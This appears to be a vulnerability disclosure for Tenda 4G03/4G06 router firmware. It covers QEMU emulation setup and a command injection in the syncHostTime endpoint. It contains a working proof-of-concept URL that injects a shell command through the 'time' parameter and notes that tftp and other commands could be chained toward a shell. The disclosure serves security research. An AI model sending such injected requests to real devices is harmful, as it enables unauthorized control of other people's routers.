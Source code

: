 # tenda_4g03-4g06_vuln
## vuln__firm_version 
4g03 <= V16.03.07.21_multi

4g06 <= V16.03.07.21_multi

# Vulnerability Reproduction
## Firmware example 
https://down.tendacn.com/uploadfile/4G03/US_4G03V1.0re_V16.03.07.21_multi_TDE01.zip

## system emulate:
## Host
sudo brctl addbr br0

sudo ifconfig br0 192.168.1.137/24 up

sudo tunctl -t tap0

sudo ifconfig tap0 192.168.1.138/24 up

sudo brctl addif br0 tap0

## Guest
ip link add br0 type dummy

ifconfig eth0 192.168.1.139/24 up

ifconfig br0 192.168.1.140/24 up

## Mount file system
mount -o bind /dev ./squashfs-root/dev/

mount -t proc /proc/ ./squashfs-root/proc/

chroot squashfs-root /bin/sh

# Emulation
sudo qemu-system-mipsel -M malta -kernel vmlinux-2.6.32-5-4kc-malta -hda debian_squeeze_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -netdev tap,id=tapnet,ifname=tap0,script=no -device rtl8139,netdev=tapnet -nographic

# Vulnerability information
![image](https://github.com/user-attachments/assets/33559806-3b51-4215-96f5-0ccb4eee08cd)

Pass the URL parameters to var, control var, and then execute the corresponding system function through doSystemCmd.

## after emulate successed
run ./bin/httpd 

![image](https://github.com/user-attachments/assets/7a584e9a-0ac2-4bf9-9d61-6ed739434c99)

## browser access
http://192.168.1.140/goform/syncHostTime/js/libs/reasy-ui-1.0.3.js?time=$(ls%20-al)

you can see it in the simulation terminal

![image](https://github.com/user-attachments/assets/725fa838-9d72-4f69-a5a9-9c2b105b3754)

After testing, not only can execute 'ls'. Can also execute 'echo', 'cat', 'tftp' and other commands that can be used to construct payloads to obtain shell commands
